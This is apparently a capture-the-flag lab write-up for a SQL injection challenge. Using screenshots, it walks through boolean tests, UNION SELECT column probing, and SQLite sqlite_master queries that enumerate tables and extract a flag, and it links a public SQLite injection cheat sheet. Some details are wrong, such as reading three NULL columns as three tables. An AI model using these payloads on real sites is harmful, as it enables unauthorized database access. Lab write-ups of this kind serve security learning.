 ### More SQLi Challenge 358

Access the lab, login with `ad|ad`, server throw 500 and `query` to db

![thorw 500](image.png)

Try basic payload

![enter](image-1.png)

but no flag here, try to exploit `Search` function

try find `'`

![alt text](image-2.png)

No record show, but try `' OR 1=1--`

All record show

![alt text](image-3.png)

To confirm it maybe vulnerable to sql injection attack, send more payload return `false` like `'OR 1=2--`,

No record show, we confirm it vunerable to sql attack

![alt text](image-4.png)

Try to sent `union` payload, it's return `500 - Internal Sever Error` when query `false`

![alt text](image-5.png)

Found when `' UNION SELECT NULL, NULL, NULL--`, it's mean this database have 3 table

![alt text](image-6.png)

Try inject a text, it's ok

![alt text](image-7.png)

Try some payload to get version of database but we all `500` 

![sql cheat sheet](image-9.png)

![alt text](image-8.png) 

Found `SQLite` in hints

![sqlite](image-10.png)

let's use some query sqlite

TRy to show version, `' union select (select sqlite_version()), 'ez2', 'ez3'--`, SQLite 3.31.1

![alt text](image-11.png)

Using `search=' union select (SELECT tbl_name FROM sqlite_master WHERE type='table'), 'ez2', 'ez3'--`, get `users` tables

![table](image-14.png)
Usign `search=' union select (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'), 'ez2', 'ez3'--`, get `users` structure through `CREATE` query

![CREATE query](image-13.png)

Found `users` tables have `name, password, id` column, let retrieving information
Found `hints` tables have `id, info` column, let retrieving information
Found `more_tables` tables have `id, flag` column, let retrieving information

Let's extract `flag`

![alt text](image-15.png)



#### REFERENCE

[SQLITE cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


